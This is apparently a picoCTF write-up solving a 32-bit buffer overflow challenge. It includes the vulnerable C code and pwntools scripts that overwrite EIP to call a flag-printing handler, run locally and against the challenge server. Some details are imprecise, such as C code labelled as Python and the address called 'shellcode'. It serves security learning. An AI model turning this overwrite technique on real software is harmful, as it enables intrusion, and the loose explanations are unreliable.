





<br>




In this challenge we were given an ELF 32 bit executable and its source code. When we run the executable:



Let's examine the source code.
The challenge's name indicates that we're facing a buffer overflow vulnerability. The vulnerable part of the code is :

```python
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
the variable buf2 has a capacity of 16 bytes meanwhile the function ignores its length and copies the content of the argument input which can be arbitrarily long into the variable buf2. That'll cause the program to fill the space destined for the variable input and fills up adjacent places in the memory. These "adjacent spaces" can be very sensitive. Since they control the execution of the program. Let's now take a look at a dangerous function.

```python
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function is only written and not called. That seems hopeless! Not a bit! There's something in the memory called EIP register (in the 32bit architecture) which contains the adress of the next instruction that'll be executed. Of course, the whole code is transformed into assembly and instruction has an adress. That's it ! We just need now to implement the exploit.

Let's fire up gdb and look for the adress of the function sigsegv_handler() using the commnad `info functions`


It is located at the adress at the adress 0x0000130d
We can use the (Website) to find the offset which is sort of the distance from the variable buf2 in the memory and the EIP register. We find that it is 28. So, we fill 28 bytes in the memory starting from the variable buf2 and followed by the adress of the sigsegv_handler() in shellcode.
We can use the following code in our local machine with a fake flag file to test.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = process("./vuln")
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
``` 


<br>
It worked! It printed the fake flag FLAG_FLAG

Now let's try to exploit it remotely and find the flag !
for that we need to modify our python script.

```python
from pwn import *


payload = b"A"*28
payload += p32(0x0000130d)

p = remote("saturn.picoctf.net", 51532)
p.recv(7)
p.sendline(payload)
p.interactive()

p.close()
```
<br>
and we get the final flag !!

